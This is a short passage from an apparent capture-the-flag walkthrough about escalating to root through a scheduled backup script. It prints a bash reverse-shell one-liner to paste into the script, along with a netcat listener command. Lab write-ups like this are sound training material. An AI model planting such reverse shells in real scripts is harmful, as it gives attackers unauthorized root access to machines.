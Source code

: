 ![Untitled](walkthrough_resources/Untitled%206.png)

It is indeed a script running timely.

<aside>
💡 Time to get a reverse shell in the backup script.

</aside>

```jsx
nano backup.sh
//paste this in the script and hits save
bash -i >& /dev/tcp/192.168.1.107/8080 0>&1
nc -lvp 8080

Since the script is running with root privileges, we will get a root shell.
```

<aside>
💡 Now the moment, the script is executed, we will get a root shell

</aside>

![Untitled](walkthrough_resources/Untitled%207.png)

AND, we did it

![Untitled](walkthrough_resources/Untitled%208.png)